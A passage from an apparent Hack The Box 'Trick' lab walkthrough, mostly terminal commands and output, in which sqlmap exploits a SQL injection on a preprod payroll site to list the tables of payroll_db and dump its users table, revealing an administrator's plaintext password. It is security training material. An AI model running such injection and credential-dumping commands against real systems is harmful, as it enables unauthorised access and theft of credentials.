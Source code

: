 ```terminal

```

The confirmed the website is vulnerable and we found the database `payroll_db`.

Let's now enumerate tables.

```terminal
┌──[10.10.16.4]-[sirius💀parrot]-[25-07-07 10:55]-[/tmp/driver]
└──╼[★]$ sqlmap -u 'http://preprod-payroll.trick.htb/index.php?page=payroll_items&id=1' --batch --cookie='PHPSESSID=boe7igm6vtkh5hhmu3l81gm9fh' -D payroll_db --table        ___
       __H__
 ___ ___[']_____ ___ ___  {1.8.12#stable}
|_ -| . [']     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

Database: payroll_db                                                                                                                                                                          
[11 tables]
+---------------------+
| position            |
| allowances          |
| attendance          |
| deductions          |
| department          |
| employee            |
| employee_allowances |
| employee_deductions |
| payroll             |
| payroll_items       |
| users               |
+---------------------+

```

The users table is usually where we find passwords so let's dump it.

```terminal
┌──[10.10.16.4]-[sirius💀parrot]-[25-07-07 10:55]-[/tmp/driver]                                                                                                                               
└──╼[★]$ sqlmap -u 'http://preprod-payroll.trick.htb/index.php?page=payroll_items&id=1' --batch --cookie='PHPSESSID=boe7igm6vtkh5hhmu3l81gm9fh' -D payroll_db -T users --dump                 
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.8.12#stable}
|_ -| . [']     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

Database: payroll_db
Table: users
[1 entry]
+----+-----------+---------------+--------+---------+---------+-----------------------+------------+
| id | doctor_id | name          | type   | address | contact | password              | username   |
+----+-----------+---------------+--------+---------+---------+-----------------------+------------+
| 1  | 0         | Administrator | 1      | <blank> | <blank> | SuperGucciRainbowCake | Enemigosss |
+----+-----------+---------------+--------+---------+---------+-----------------------+------------
```
